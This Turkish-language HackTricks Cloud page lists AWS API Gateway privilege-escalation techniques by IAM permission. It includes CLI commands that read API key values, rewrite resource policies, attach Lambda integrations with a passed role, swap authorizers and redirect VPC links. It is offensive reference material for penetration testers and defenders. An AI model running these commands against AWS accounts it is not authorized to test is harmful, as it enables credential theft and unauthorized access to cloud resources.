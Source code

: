 # AWS - Apigateway Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Apigateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Bu izinle, yapılandırılmış API'lerin (bölge başına) API anahtarlarını oluşturabilirsiniz.
```bash
aws --region <region> apigateway create-api-key
```
**Olası Etki:** Bu teknikle yetki yükseltme yapamazsınız ancak hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:GET`

Bu izinle, yapılandırılmış API'lerin (bölge başına) oluşturulan API anahtarlarını alabilirsiniz.
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Olası Etki:** Bu teknikle yetki yükseltme yapamazsınız ama hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Bu izinlerle, bir API'nin kaynak politikasını değiştirerek kendinize erişim verme ve API geçidinin sahip olabileceği potansiyel erişimi kötüye kullanma (örneğin, savunmasız bir lambda'yı çağırma) mümkün hale gelir. 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Olası Etki:** Genellikle, bu teknikle doğrudan privesc yapamayacaksınız, ancak hassas bilgilere erişim elde edebilirsiniz.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:PutIntegration`, `apigateway:CreateDeployment` ve `iam:PassRole` izinlerine sahip bir saldırgan, **bir IAM rolü eklenmiş bir Lambda fonksiyonu ile mevcut bir API Gateway REST API'sine yeni bir entegrasyon ekleyebilir**. Saldırgan daha sonra **Lambda fonksiyonunu tetikleyerek rastgele kod çalıştırabilir ve potansiyel olarak IAM rolü ile ilişkili kaynaklara erişim kazanabilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Lambda fonksiyonunun IAM rolü ile ilişkili kaynaklara erişim.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:UpdateAuthorizer` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway yetkilisini değiştirebilir** ve güvenlik kontrollerini atlayabilir veya API istekleri yapıldığında rastgele kod çalıştırabilir.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Güvenlik kontrollerinin atlanması, API kaynaklarına yetkisiz erişim.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

`apigateway:UpdateVpcLink` iznine sahip bir saldırgan, **mevcut bir VPC Bağlantısını farklı bir Ağ Yük Dengeleyicisine işaret edecek şekilde değiştirebilir, bu da özel API trafiğini yetkisiz veya kötü niyetli kaynaklara yönlendirebilir**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potansiyel Etki**: Özel API kaynaklarına yetkisiz erişim, API trafiğinin kesilmesi veya kesintiye uğraması.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
